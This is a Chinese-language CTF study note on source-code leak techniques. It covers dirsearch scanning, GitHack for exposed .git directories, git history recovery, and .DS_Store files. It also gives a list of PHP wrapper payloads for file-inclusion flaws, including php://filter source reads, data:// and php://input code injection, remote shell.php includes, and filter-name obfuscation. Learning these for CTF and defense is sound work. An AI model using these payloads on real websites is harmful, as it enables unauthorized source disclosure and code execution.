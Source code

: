 # 源码泄露

很少很少会碰到flag放在泄露出来的源码里面


一般都是代码审计，所以会和其他很多东西交织在一起，属于一个比较中间的模块。

所以这里应该是不会有什么例子。

## dirsearch

其实就是一个软件的名称，用来扫后台路径的，讲不好可以扫出源码。


御剑我没用过hhh


（但是buu有访问限制会经常429.......所以记得加参数）


放上下载链接


[https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)


git clone下载就能用了记得chmod +x


然后用法一般是

./dirsearch -u URL -x 404,429,500...(看需求) -t 5(线程数) -d 0.1(访问延迟)

## .git源码泄露

开发人员会使用 git 进行版本控制，对站点自动部署。但如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞，我们可以利用这个漏洞直接获得网页源码。


通过网页访问 .git 目录，如果能访问就说明存在（权限不够也行）


要获取泄露的源码，可以使用 GitHack 工具


python（2） GitHack.py url


下载完之后的工作基本上是代码审计。


[https://github.com/BugScanTeam/GitHack](https://github.com/BugScanTeam/GitHack)


需要注意的，貌似我见过的都是py2写的，所以需要py2调用

## git文件修复

`git log --all`


一个是显示

`git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c`


一个是恢复

## ds_store

在Mac OS上会存在。


DS_Store 是用来存储这个文件夹的显示属性的：比如文件图标的摆放位置。删除以后的副作用就是这些信息的失去。（当然，这点副作用其实不是太大）


主要是如果拿到了这个文件由于各种编码的原因会很难受


于是给出一个解析读取这类文件的脚本：

## php伪协议

其实这个东西应该放在文件包含和文件上传里面的。纠结了一下，但还是，决定两个地方都放着(不过不会放很多，大头还是放在那边)：


include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file


这些都是常见的文件包含函数伪协议依托于这些函数来执行。。


以常见的include为例好了


最长使用的为php://filter/read=convert.base64-encode/resource=[文件名]</code>读取文件源码（针对php文件需要base64编码）


会碰到include($_GET['NAME'])


然后你传个?NAME=php://filter/read=convert.base64-encode/resource=index.php


进去，然后就可以拿到index.php的base64编码的源码。


原理就是文件包含（之后介绍）


### php支持的伪协议有：


```plain
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp

```



读文件常用的也就php：（访问各个输入/输出流（I/O streams））


和file:（还有local_file,这个之后再说，好像是个cve）


所谓的伪协议，事实上是其支持的协议与封装协议

## google

有些代码（比如说直接的服务器端框架性的）试能够直接用github和google直接搜索到的


因此这也是一种形式上的源码泄露。









